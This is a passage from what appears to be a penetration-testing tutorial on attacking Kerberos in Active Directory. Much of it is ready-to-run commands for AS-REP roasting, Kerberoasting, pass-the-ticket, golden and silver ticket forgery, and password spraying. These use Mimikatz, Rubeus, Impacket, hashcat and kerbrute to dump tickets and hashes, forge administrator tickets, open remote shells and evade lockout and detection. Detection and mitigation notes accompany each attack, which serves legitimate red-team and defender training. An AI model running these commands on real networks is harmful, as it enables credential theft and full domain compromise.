

### Kerberos Tickets Structure

**TGT (Ticket Granting Ticket) Structure:**

```
TGT {
    Header
    ├── Version
    ├── Encryption Type (AES256, AES128, RC4)
    └── Key Version Number

    Encrypted Data (with krbtgt hash) {
        ├── Client Name
        ├── Client Domain
        ├── Session Key
        ├── Start Time
        ├── End Time (default: 10 hours)
        ├── Renew Time (default: 7 days)
        └── PAC (Privilege Attribute Certificate)
            ├── User SID
            ├── Group SIDs
            └── Additional Security Info
    }
}
```

**Service Ticket Structure:**

```
Service Ticket {
    Header
    ├── Version
    ├── Service Name
    └── Encryption Type

    Encrypted Data (with service account hash) {
        ├── Client Name
        ├── Client Domain
        ├── Service Session Key
        ├── Start Time
        ├── End Time
        └── PAC (includes authorization data)
    }
}
```

**PAC (Privilege Attribute Certificate):**

The PAC is Microsoft’s extension to Kerberos containing authorization information:
- User SID
- Group SIDs (Domain Users, Domain Admins, etc.)
- Additional claims
- Signed by KDC to prevent tampering

**Ticket File Formats:**
- **.kirbi** - Mimikatz/Windows format
- **.ccache** - Unix/Linux format
- Can be converted between formats with `ticketConverter.py`

### Service Principal Names (SPNs)

SPNs are unique identifiers for services in Kerberos.

**SPN Format:**

```
service_class/hostname:port/service_name

Examples:
├── HTTP/webserver.domain.local
├── CIFS/fileserver.domain.local
├── MSSQLSvc/sqlserver.domain.local:1433
├── LDAP/dc.domain.local
└── HOST/workstation.domain.local
```

**Why SPNs Matter:**
1. Clients use SPNs to request service tickets
2. Services registered with SPNs are Kerberoastable
3. One account can have multiple SPNs
4. Domain accounts running services need SPNs

**Viewing SPNs:**

```powershell
# PowerShell - View SPNs for user
Get-ADUser username -Properties ServicePrincipalName

# PowerShell - Find all SPNs
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# Command Prompt
setspn -L username
setspn -Q */*
```

---

## Kerberos Attacks

Now that we understand how Kerberos works, let’s explore how to attack it.

### 1. AS-REP Roasting

**Theory:**

AS-REP Roasting exploits a configuration weakness where Kerberos pre-authentication is disabled. Normally, users must prove they know their password before receiving a TGT. With pre-auth disabled, anyone can request a TGT for that user and receive an encrypted response that can be cracked offline.

**Why This Works:**

```
Normal Flow:
User → KDC: AS-REQ with encrypted timestamp
KDC → User: AS-REP with TGT

Pre-auth Disabled:
Anyone → KDC: AS-REQ (no encryption needed)
KDC → Anyone: AS-REP with part encrypted by user's password
Attacker: Crack this encryption offline to get password
```

**Vulnerable Configuration:**

In Active Directory, accounts with the `DONT_REQ_PREAUTH` flag set are vulnerable:

```
userAccountControl: DONT_REQUIRE_PREAUTH (0x400000)
```

**Why Accounts Have Pre-Auth Disabled:**
- Legacy application compatibility
- Misconfiguration
- Unix/Linux integration
- Forgotten test accounts

**Attack Steps:**

```
1. Enumerate users with pre-auth disabled
2. Request AS-REP for vulnerable user
3. Extract encrypted portion
4. Crack offline with hashcat/john
5. Use discovered password
```

**Using Impacket:**

```bash
# Check specific user (no credentials needed)
impacket-GetNPUsers <domain>/<username> -no-pass -dc-ip <dc-ip>

# Check multiple users from list
impacket-GetNPUsers <domain>/ -usersfile users.txt -dc-ip <dc-ip> -format hashcat -outputfile asrep_hashes.txt

# With domain credentials to query AD for vulnerable accounts
impacket-GetNPUsers <domain>/<username>:<password> -dc-ip <dc-ip> -request

# Using NTLM hash instead of password
impacket-GetNPUsers <domain>/<username> -hashes :<ntlm_hash> -dc-ip <dc-ip> -request
```

**Using Rubeus (Windows):**

```powershell
# Check for AS-REP roastable users
Rubeus.exe asreproast /format:hashcat /outfile:asrep_hashes.txt

# Target specific user
Rubeus.exe asreproast /user:vulnerable_user /format:hashcat

# Check specific OU
Rubeus.exe asreproast /ou:"OU=Workstations,DC=domain,DC=local"
```

**Hash Format:**

```
$krb5asrep$23$username@DOMAIN.LOCAL:ae43ca9011e[...]
│         │  │                          │
│         │  │                          └─ Encrypted data
│         │  └────────────────────────── Username and domain
│         └───────────────────────────── Encryption type (23 = RC4)
└─────────────────────────────────────── Hash type identifier
```

**Cracking:**

```bash
# Hashcat with rockyou
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt

# Hashcat with rules
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hashes.txt

# Show cracked passwords
hashcat -m 18200 asrep_hashes.txt --show
```

**Detection:**

Look for Event ID 4768 (Kerberos TGT Request) with:
- Pre-authentication type: 0 (no pre-auth)
- Multiple requests for same user from different IPs
- Requests for disabled or rarely-used accounts




### 2. Kerberoasting

**Theory:**

Kerberoasting targets service accounts with registered SPNs. When a service ticket is requested, it’s encrypted with the service account’s password hash. Anyone can request these tickets and crack them offline. Service accounts often have:
- Weak passwords (set by humans)
- High privileges (Domain Admin, local admin)
- No password expiration
- Rarely changed passwords

**Why This Works:**

```
1. Any authenticated user can request service tickets
2. Service tickets encrypted with service account password
3. Encryption can be cracked offline
4. No logs indicate attack until password spray/login
```

**Attack Prerequisites:**
- Valid domain credentials (any user)
- Network access to domain controller
- Service accounts with SPNs registered

**Attack Flow:**

```
Attacker (as low-priv user)
    ↓
Request TGS for all SPNs
    ↓
Receive tickets encrypted with service account hashes
    ↓
Extract tickets
    ↓
Crack offline
    ↓
Compromise high-privilege service accounts
```

**Using Impacket:**

```bash
# List all kerberoastable accounts
impacket-GetUserSPNs <domain>/<username>:<password> -dc-ip <dc-ip>

# Request all TGS tickets
impacket-GetUserSPNs <domain>/<username>:<password> -dc-ip <dc-ip> -request

# Save to file
impacket-GetUserSPNs <domain>/<username>:<password> -dc-ip <dc-ip> -request -outputfile tgs_hashes.txt

# With NTLM hash
impacket-GetUserSPNs <domain>/<username> -hashes :<ntlm_hash> -dc-ip <dc-ip> -request

# Target specific SPN
impacket-GetUserSPNs <domain>/<username>:<password> -dc-ip <dc-ip> -request-user serviceaccount
```

**Using Rubeus (Windows):**

```powershell
# Kerberoast all accounts
Rubeus.exe kerberoast /outfile:tgs_hashes.txt

# Target specific user
Rubeus.exe kerberoast /user:serviceaccount /outfile:hash.txt

# Target specific OU
Rubeus.exe kerberoast /ou:"OU=ServiceAccounts,DC=domain,DC=local"

# Request with AES encryption (harder to crack but stealthier)
Rubeus.exe kerberoast /aes

# Specify encryption downgrade (force RC4)
Rubeus.exe kerberoast /tgtdeleg
```

**Using PowerView:**

```powershell
# Find kerberoastable users
Get-DomainUser -SPN

# Request TGS tickets
Invoke-Kerberoast -OutputFormat Hashcat | Select-Object -ExpandProperty Hash
```

**Hash Format:**

```
$krb5tgs$23$*user$realm$service/hostname*$[hash data]
│        │   │   │     │                    │
│        │   │   │     │                    └─ Encrypted ticket
│        │   │   │     └────────────────────── Service SPN
│        │   │   └──────────────────────────── Kerberos realm
│        │   └──────────────────────────────── Username
│        └──────────────────────────────────── Encryption type (23=RC4)
└───────────────────────────────────────────── Hash type
```

**Cracking:**

```bash
# Hashcat
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt

# With rules for better success
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Optimized attack
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt -O

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt tgs_hashes.txt

# Show cracked
hashcat -m 13100 tgs_hashes.txt --show
```

**Identifying High-Value Targets:**

```powershell
# Service accounts in admin groups
Get-DomainUser -SPN | Where-Object {$_.memberof -match 'Domain Admins'}

# Service accounts with adminCount=1
Get-DomainUser -SPN -AdminCount

# Look for SQL servers, web servers
Get-DomainUser -SPN | Where-Object {$_.serviceprincipalname -match 'mssql|http|cifs'}
```

**Detection:**

Monitor Event ID 4769 (Kerberos Service Ticket Request) for:
- High volume of requests from single source
- RC4 encryption requested (when AES available)
- Tickets for multiple different SPNs rapidly
- Requests for service accounts that rarely get accessed



### 3. Pass the Ticket

**Theory:**

Pass the Ticket (PtT) involves stealing Kerberos tickets from memory and reusing them to authenticate as the ticket owner. Since tickets are valid authentication credentials, possessing a ticket = possessing the identity, no password needed.

**Why This Works:**

```
Kerberos tickets are:
├── Stored in memory (LSASS process)
├── Valid for hours (TGT: 10 hours default)
├── Reusable until expiration
└── Accepted by services without password check

Attacker can:
├── Extract from compromised machine
├── Inject into their own session
└── Authenticate as ticket owner
```

**Attack Prerequisites:**
- Local Administrator or SYSTEM on target machine
- User with active Kerberos session on that machine
- Tools to extract and inject tickets

**Ticket Locations:**

```
Windows:
├── LSASS Process Memory
├── Credential Manager
└── LSA Secrets

Linux:
├── /tmp/krb5cc_[UID] (default ccache location)
└── Environment variable: KRB5CCNAME
```

**Attack Workflow:**

```
1. Compromise machine with admin access
2. Dump tickets from memory
3. Identify high-value tickets
   ├── Domain Admin sessions
   ├── Service accounts
   └── TGTs (for flexibility)
4. Transfer ticket to attacker machine
5. Inject ticket into attacker's session
6. Access resources as ticket owner
```

**Using Mimikatz (Windows):**

```powershell
# Enable debug privilege
privilege::debug

# List all tickets in memory
sekurlsa::tickets

# Export all tickets to files
sekurlsa::tickets /export

# List Kerberos tickets (alternative method)
kerberos::list

# Export specific ticket
kerberos::list /export

# Inject ticket into current session
kerberos::ptt ticket.kirbi

# Inject multiple tickets
kerberos::ptt /directory:C:\tickets

# Purge all tickets from session
kerberos::purge
```

**Using Rubeus (Windows):**

```powershell
# Dump all tickets (requires elevation)
Rubeus.exe dump

# Dump tickets for specific user
Rubeus.exe dump /user:administrator

# Dump tickets for specific service
Rubeus.exe dump /service:krbtgt

# Monitor for new tickets
Rubeus.exe monitor /interval:10

# Pass the ticket (base64 encoded)
Rubeus.exe ptt /ticket:[base64_ticket]

# Pass ticket from file
Rubeus.exe ptt /ticket:ticket.kirbi

# Create new process with ticket
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /ptt /ticket:ticket.kirbi
```

**Using Impacket (Linux):**

```bash
# Convert kirbi to ccache format
ticketConverter.py ticket.kirbi ticket.ccache

# Set ticket for current session
export KRB5CCNAME=/path/to/ticket.ccache

# Use ticket with Impacket tools
impacket-psexec <domain>/<username>@<target> -k -no-pass

# With specific ticket
impacket-wmiexec <domain>/<username>@<target> -k -no-pass

# SMB access with ticket
impacket-smbexec <domain>/<username>@<target> -k -no-pass

# List target's shares
impacket-smbclient -k -no-pass <target>
```

**Ticket Extraction from Linux:**

```bash
# Find ccache files
find / -name "krb5cc_*" 2>/dev/null

# Copy ticket
cp /tmp/krb5cc_1000 /tmp/stolen_ticket.ccache

# Use ticket
export KRB5CCNAME=/tmp/stolen_ticket.ccache
klist  # View ticket details
```

**High-Value Ticket Types:**

1. **TGT (Ticket Granting Ticket)**
    - Most flexible
    - Can request tickets for any service
    - Valid for 10 hours by default
2. **Service Tickets for Sensitive Services**
    - `cifs/dc.domain.local` - File access to DC
    - `ldap/dc.domain.local` - Directory modification
    - `host/target.domain.local` - Remote admin access
3. **Tickets from Privileged Users**
    - Domain Admins
    - Enterprise Admins
    - Service accounts with delegation

**Detection:**

Monitor for:
- Event ID 4624 (Logon) Type 3 without corresponding 4768
- Logons from unusual locations for user
- Multiple machines using same ticket
- Service access without prior TGT request
- Tools like Mimikatz in process execution logs


### 4. Golden Ticket Attack

**Theory:**

A Golden Ticket is a forged TGT created using the `krbtgt` account’s NTLM hash. Since the krbtgt account’s hash encrypts all TGTs, possessing this hash allows an attacker to forge TGTs for any user with any privileges, valid for up to 10 years.

**Why This is Devastating:**

```
Normal TGT: Issued by KDC, limited privileges, expires in hours
Golden Ticket: Forged by attacker, unlimited privileges, expires when attacker wants

With krbtgt hash, attacker can:
├── Create TGTs for any user (including non-existent)
├── Set any privileges (Domain Admin, Enterprise Admin)
├── Set long expiration times (months or years)
├── Bypass normal authentication logs
└── Maintain persistence even after password resets
```

**Attack Prerequisites:**
- krbtgt account NTLM hash
- Domain SID
- Domain name
- (Optional) Username to impersonate

**Obtaining krbtgt Hash:**

```powershell
# Method 1: Mimikatz DCSync (requires domain replication rights)
mimikatz # lsadump::dcsync /domain:contoso.com /user:krbtgt

# Method 2: Dump from Domain Controller
mimikatz # lsadump::lsa /inject /name:krbtgt

# Method 3: From NTDS.dit (offline)
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```

**Getting Domain SID:**

```powershell
# PowerShell
Get-ADDomain | Select-Object DNSRoot,DomainSID

# Command Prompt
whoami /user
# SID format: S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX-[RID]
# Domain SID is everything except the last part

# Mimikatz
mimikatz # lsadump::lsa /patch
```

**Creating Golden Ticket with Mimikatz:**

```powershell
# Basic golden ticket
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX /krbtgt:NTLM_HASH /ptt

# Extended golden ticket with all options
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX /krbtgt:NTLM_HASH /id:500 /groups:512,513,518,519,520 /startoffset:0 /endin:600 /renewmax:10080 /ptt

# Save to file instead of injecting
mimikatz # kerberos::golden /user:FakeAdmin /domain:contoso.com /sid:S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX /krbtgt:NTLM_HASH /ticket:golden.kirbi

# Create for specific service
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX /krbtgt:NTLM_HASH /service:cifs /target:dc.contoso.com
```

**Parameter Explanation:**
- `/user:` - Username to impersonate (can be non-existent)
- `/domain:` - Fully qualified domain name
- `/sid:` - Domain SID (without RID at end)
- `/krbtgt:` - krbtgt account NTLM hash
- `/id:` - User RID (500 = Administrator)
- `/groups:` - Group RIDs to include (512 = Domain Admins)
- `/ptt` - Pass the ticket immediately
- `/ticket:` - Save to file for later use
- `/startoffset:` - Ticket validity start (minutes from now)
- `/endin:` - Ticket lifetime (minutes, default 600 = 10 hours)
- `/renewmax:` - Maximum renewal time (minutes, default 10080 = 7 days)

**Using Impacket (Linux):**

```bash
# Create golden ticket
impacket-ticketer -nthash <krbtgt_hash> -domain-sid <domain_sid> -domain <domain> Administrator

# Creates: Administrator.ccache

# Use the golden ticket
export KRB5CCNAME=Administrator.ccache

# Access systems
impacket-psexec <domain>/Administrator@<target> -k -no-pass
impacket-wmiexec <domain>/Administrator@<target> -k -no-pass
impacket-smbexec <domain>/Administrator@<target> -k -no-pass

# Perform DCSync
impacket-secretsdump <domain>/Administrator@<dc> -k -no-pass
```

**Golden Ticket Variations:**

**1. Domain Admin Golden Ticket:**

```powershell
/user:Administrator /id:500 /groups:512,513,518,519,520
```

**2. Enterprise Admin Golden Ticket:**

```powershell
/user:Administrator /id:500 /groups:512,513,518,519,520,519
```

**3. Long-lasting Persistence:**

```powershell
/endin:525600 /renewmax:5256000
# Valid for 1 year, renewable for 10 years
```

**4. Stealthy (non-existent user):**

```powershell
/user:BackdoorAccount /id:1999
# User doesn't exist in AD, harder to detect
```

**Golden Ticket Persistence:**

```
Attacker creates golden ticket →
    ↓
Ticket stored securely →
    ↓
Used when needed for access →
    ↓
Works even if:
    ├── Passwords reset
    ├── Accounts disabled
    ├── User removed from groups
    └── [Until krbtgt password rotated]
```

**Detection Challenges:**

Golden tickets are difficult to detect because:
- No AS-REQ logged (ticket not requested from KDC)
- Ticket appears valid to services
- Can be used from any IP address
- May impersonate non-existent users

**Detection Indicators:**

Event ID 4624 (Logon) with:
- Logon Type 3 (Network)
- No corresponding Event ID 4768 (TGT Request)
- Account names not in AD
- Unusual lifetimes or groups in ticket PAC
- Encryption type downgrades

**Mitigation:**

```
1. Rotate krbtgt password twice (24 hours apart)
2. Monitor for unusual authentication patterns
3. Implement strict Domain Admin controls
4. Regular security audits
5. Monitor for DCSync operations
```



### 5. Silver Ticket Attack

**Theory:**

A Silver Ticket is a forged service ticket created using a service account’s NTLM hash. Unlike golden tickets (which forge TGTs), silver tickets forge service tickets directly. They grant access to specific services but are more limited in scope and stealthier.

**Golden Ticket vs Silver Ticket:**

```
Golden Ticket:
├── Forged TGT
├── Requires krbtgt hash
├── Access to entire domain
├── Can request tickets for any service
└── More detectable (PAC validation)

Silver Ticket:
├── Forged Service Ticket
├── Requires service account hash
├── Access to specific service only
├── More stealthy (less KDC interaction)
└── Harder to detect
```

**Attack Prerequisites:**
- Service account NTLM hash
- Domain SID
- Domain name
- Target service SPN
- Service hostname

**Common Target Services:**

```
CIFS (File Sharing):
└── Access to file shares, remote file operations

HTTP (Web Services):
└── Access to web applications, SharePoint

LDAP (Directory Services):
└── Query and modify Active Directory

HOST (Multiple Services):
└── Scheduled tasks, WMI, remote services

MSSQLSvc (SQL Server):
└── Database access, xp_cmdshell execution

WSMAN (Windows Remote Management):
└── PowerShell remoting, remote management
```

**Obtaining Service Account Hash:**

```powershell
# From compromised computer running the service
mimikatz # sekurlsa::logonpasswords

# Kerberoasting (crack to get plaintext, hash it)
impacket-GetUserSPNs domain/user:pass -request

# DCSync (if you have Domain Admin)
mimikatz # lsadump::dcsync /user:serviceaccount
```

**Creating Silver Ticket with Mimikatz:**

```powershell
# CIFS service ticket (file access)
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXX /target:fileserver.contoso.com /service:cifs /rc4:SERVICE_NTLM_HASH /ptt

# HTTP service ticket (web access)
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXX /target:webapp.contoso.com /service:http /rc4:SERVICE_NTLM_HASH /ptt

# LDAP service ticket (AD access)
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXX /target:dc.contoso.com /service:ldap /rc4:SERVICE_NTLM_HASH /ptt

# HOST service ticket (remote services)
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXX /target:server.contoso.com /service:host /rc4:SERVICE_NTLM_HASH /ptt

# Multiple services for one host
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXX /target:server.contoso.com /service:cifs /rc4:HASH /ptt
mimikatz # kerberos::golden /user:Administrator /domain:contoso.com /sid:S-1-5-21-XXX /target:server.contoso.com /service:host /rc4:HASH /ptt
```

**Using Impacket (Linux):**

```bash
# Create silver ticket for CIFS
impacket-ticketer -nthash <service_hash> -domain-sid <domain_sid> -domain <domain> -spn cifs/fileserver.domain.com Administrator

# Use the ticket
export KRB5CCNAME=Administrator.ccache
impacket-smbclient -k fileserver.domain.com

# Create for LDAP
impacket-ticketer -nthash <service_hash> -domain-sid <domain_sid> -domain <domain> -spn ldap/dc.domain.com Administrator
```

**Attack Scenarios:**

**Scenario 1: Compromised File Server**

```
1. Obtain CIFS service account hash
2. Create silver ticket for CIFS/fileserver
3. Access all files on that server
4. Exfiltrate data or plant malware
```

**Scenario 2: Compromised SQL Server**

```
1. Obtain MSSQLSvc account hash
2. Create silver ticket for SQL service
3. Connect to database as sysadmin
4. Enable xp_cmdshell for code execution
```

**Scenario 3: Domain Controller Service Access**

```
1. Obtain DC computer account hash (HOST/)
2. Create silver tickets for:
   ├── CIFS (file access)
   ├── LDAP (directory access)
   └── HOST (remote services)
3. Perform DCSync or other admin operations
```

**Silver Ticket Advantages:**

```
Stealth:
├── No TGT request to KDC
├── No AS-REQ/TGS-REQ logged
├── Service validates ticket locally
└── Less PAC validation (usually)

Focused Access:
├── Specific service only
├── Doesn't grant domain-wide access
└── Matches legitimate traffic patterns

Persistence:
├── Works until service account password changes
├── Can set long expiration
└── Survives password resets of other accounts
```

**Detection Difficulties:**

Silver tickets bypass normal Kerberos logs because:
- No interaction with KDC
- Service decrypts and validates locally
- Appears as legitimate ticket to service
- No unusual authentication events

**Detection Indicators:**

- Service access without corresponding TGS-REQ
- Tickets with unusual lifetimes
- Service access from unusual IPs
- PAC validation errors (if enabled)
- Access patterns inconsistent with user behavior

**Mitigation:**

```
1. Enable PAC validation on all services
2. Use managed service accounts (gMSA) with automatic password rotation
3. Monitor service account password changes
4. Implement service account password rotation
5. Use strong passwords for service accounts (>25 characters)
6. Monitor unusual service access patterns
7. Separate service accounts per service
```



### 6. Kerberos Brute Force and Password Spraying

**Theory:**

Instead of exploiting Kerberos, these attacks use it as intended but attempt to guess passwords. Password spraying tests one password against many accounts to avoid lockouts.

**Password Spraying vs Brute Force:**

```
Brute Force:
├── Many passwords against ONE account
├── HIGH risk of account lockout
├── Detected quickly
└── Not recommended for Kerberos

Password Spray:
├── ONE password against MANY accounts
├── LOW risk of lockout
├── Mimics legitimate failed logins
└── Effective in AD environments
```

**Why Password Spraying Works:**

```
Common scenarios:
├── Welcome123! (welcome message passwords)
├── Summer2024! (seasonal passwords)
├── CompanyName2024!
├── Password123!
└── [Month][Year]!

Many organizations have:
├── Weak password policies
├── No account lockout
├── Inadequate monitoring
└── Users choosing simple passwords
```

**Using Kerbrute:**

```bash
# Password spray (recommended)
./kerbrute passwordspray --dc <dc-ip> -d <domain> users.txt Password123

# Custom password list spray
./kerbrute passwordspray --dc <dc-ip> -d <domain> users.txt passwords.txt

# With delay to avoid detection
./kerbrute passwordspray --dc <dc-ip> -d <domain> users.txt Password123 --delay 3000

# Brute force single user (use cautiously)
./kerbrute bruteuser --dc <dc-ip> -d <domain> passwords.txt username

# Output results to file
./kerbrute passwordspray --dc <dc-ip> -d <domain> users.txt Password123 -o results.txt
```

**Using CrackMapExec:**

```bash
# Password spray against SMB
crackmapexec smb <dc-ip> -u users.txt -p 'Password123' --continue-on-success

# Multiple passwords (spray with delays)
crackmapexec smb <dc-ip> -u users.txt -p passwords.txt --continue-on-success

# Check for local admin access
crackmapexec smb <targets.txt> -u username -p password --local-auth

# Spray entire subnet
crackmapexec smb 192.168.1.0/24 -u username -p password

# Fail-safe with lockout awareness
crackmapexec smb <dc-ip> -u users.txt -p 'Password123' --continue-on-success --fail-limit 3
```

**Safe Password Spraying Strategy:**

```
1. Enumerate password policy first
   └── Get lockout threshold and duration

2. Calculate safe attempt rate
   └── If lockout after 5 attempts, use 3 attempts
   └── Space attempts over lockout duration

3. Build target user list
   ├── Valid usernames from enumeration
